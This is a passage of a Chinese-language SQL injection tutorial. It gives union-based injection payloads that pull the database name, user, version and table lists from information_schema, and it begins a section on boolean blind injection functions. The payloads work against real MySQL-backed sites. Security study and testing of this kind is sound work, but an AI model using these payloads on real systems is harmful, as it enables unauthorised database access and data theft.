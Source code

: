 在[  ]中，可利用通配符查找与指定值（例如123）相关的数据

`123%`以123开头的数据；`%123%`包含123的数据；`_123`第一个字符后是123的数据，同理`1_2_3`

### 常见注入方法

#### `union`联合查询

通过union和前面一条SQL语句拼接,并构造其列数与前面的SQL语句列数相同

例如：`select 1,2,3 from table_name1 union select 4,5,6 from table_name2;`

原查询的列数为 `1,2,3` 共三列，`union select`的列数也要为三个 即 `4,5,6`，实际可以替换为`4,database(),user()`

**一些常用的联合查询语句**

`1' union select database(),user()#` 这里要求原查询的列数为2

- `database()`将会返回当前网站所使用的数据库名字.

- `user()`将会返回执行当前查询的用户名.

`1' union select version(),@@version_compile_os#`

- `version()` 获取当前数据库版本.

- `@@version_compile_os` 获取当前操作系统

`1' union select table_name,table_schema from information_schema.tables where table_schema= '[ ]'#`

通过此语句可以查询到**指定库内的所有表和表名**，最后的方框中填入想要查询的数据库名即可

`information_schema` 是 `mysql` 自带的一张表，这张数据表保存了 Mysql 服务器所有数据库的信息,如数据库名，数据库的表，表栏的数据类型与访问权限等。该数据库拥有一个名为 `tables` 的数据表，该表包含两个字段 table_name 和 table_schema，分别记录 DBMS 中的存储的表名和表名所在的数据库。

`-1' union select 1,2,(concat_ws(char(),user(),version(),database()))%23`

能够获取当前数据库的库名，版本和连接用户，其中`concat_ws()`函数的作用是从数据库里取n个字段组合到一起并用符号分割显示，`char()`能够将十进制ASCII码转换为字符，%23为url编码中的#

- `group_concat()`与`concat_ws()`的区别是前者将**列**组合显示，后者将**行**组合显示

- `information_schema`：表示所有信息，包括库、表、列

- `information_schema.tables`：记录所有表名信息的表

- `information_schema.columns`：记录所有列名信息的表

- `table_schema`：数据库的名称

- `table_name`:表名

- `column_name`:列名

- `group_concat()`:显示所有查询到的数据



#### 布尔盲注

布尔盲注一般适用于页面没有回显字段(**不支持联合查询**)，且web页面返回`True` 或者 `false`，构造SQL语句，利用and，or等关键字来其后的语句 true 、 false使web页面返回true或者false，从而达到注入的目的来获取信息

    ascii() 函数，返回字符ascii码值
        参数 : str单字符
    length() 函数，返回字符串的长度
        参数 : str 字符串
    left() 函数，返回从左至右截取固定长度的字符串
        参数str,length
        str : 字符串
        length：截取长度
    substr()/substring() 函数 ， 返回从pos位置开始到length长度的子字符串
        参数，str，pos，length
        str: 字符串
        pos：开始位置
        length： 截取长度